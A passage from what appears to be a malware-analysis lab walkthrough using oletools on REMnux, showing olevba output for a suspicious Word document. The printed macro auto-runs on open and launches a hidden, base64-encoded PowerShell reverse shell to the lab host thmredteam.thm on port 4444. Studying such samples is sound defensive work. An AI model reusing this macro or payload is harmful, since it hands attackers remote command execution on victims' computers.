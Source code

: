 ``` sh
|Extra data beyond FAT   |0               |Only if file is larger than FAT    |
|                        |                |coverage                           |
|Extra data offset in FAT|00008000        |Offset of the 1st free sector at   |
|                        |                |end of FAT                         |
|Extra data size         |0               |Size of data starting at the 1st   |
|                        |                |free sector at end of FAT          |
+------------------------+----------------+-----------------------------------+

To display the FAT or MiniFAT structures, use options --fat or --minifat, and -h for help.

```

`olevba` is an important tool widely used for analysis. It extracts all VBA objects found within the file and shares the summary of the suspicious elements.

``` sh
remnux@thm-remnux:~/worddoc$ olevba suspicious.doc 
olevba 0.56 on Python 3.6.9 - http://decalage.info/python/oletools
===============================================================================
FILE: suspicious.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file: suspicious.doc - OLE stream: 'Macros/VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas 
in file: suspicious.doc - OLE stream: 'Macros/VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub AutoOpen()
        AutoOpenMacro
End Sub

Sub Document_Open()
        AutoOpenMacro
End Sub

Sub AutoOpenMacro()
        Dim Str As String

        Str = Str + "powershell.exe -nop -w hidden -e bGllbnQgPSBOZXctT"
        Str = Str + "2JqZWN0IFN5c3RlbS5OZXQuU29ja2V0cy5UQ1BDbGllbnQoImh"
        Str = Str + "0dHA6Ly90aG1yZWR0ZWFtLnRobS9zdGFnZTIuZXhlIiw0NDQ0K"
        Str = Str + "Tskc3RyZWFtID0gJGNsaWVudC5HZXRTdHJlYW0oKTtbYnl0ZVt"
        Str = Str + "dXSRieXRlcyA9IDAuLjY1NTM1fCV7MH07d2hpbGUoKCRpID0gJ"
        Str = Str + "HN0cmVhbS5SZWFkKCRieXRlcywgMCwgJGJ5dGVzLkxlbmd0aCk"
        Str = Str + "pIC1uZSAwKXs7JGRhdGEgPSAoTmV3LU9iamVjdCAtVHlwZU5hb"
        Str = Str + "WUgU3lzdGVtLlRleHQuQVNDSUlFbmNvZGluZykuR2V0U3RyaW5"
        Str = Str + "nKCRieXRlcywwLCAkaSk7JHNlbmRiYWNrID0gKGlleCAkZGF0Y"
        Str = Str + "SAyPiYxIHwgT3V0LVN0cmluZyApOyRzZW5kYmFjazIgPSAkc2V"
        Str = Str + "uZGJhY2sgKyAiUFMgIiArIChwd2QpLlBhdGggKyAiPiAiOyRzZ"
        Str = Str + "W5kYnl0ZSA9IChbdGV4dC5lbmNvZGluZ106OkFTQ0lJKS5HZXR"
        Str = Str + "CeXRlcygkc2VuZGJhY2syKTskc3RyZWFtLldyaXRlKCRzZW5kY"
        Str = Str + "nl0ZSwwLCRzZW5kYnl0ZS5MZW5ndGgpOyRzdHJlYW0uRmx1c2g"
        Str = Str + "oKX07JGNsaWVudC5DbG9zZSgp"

        CreateObject("Wscript.Shell").Run Str
End Sub
```
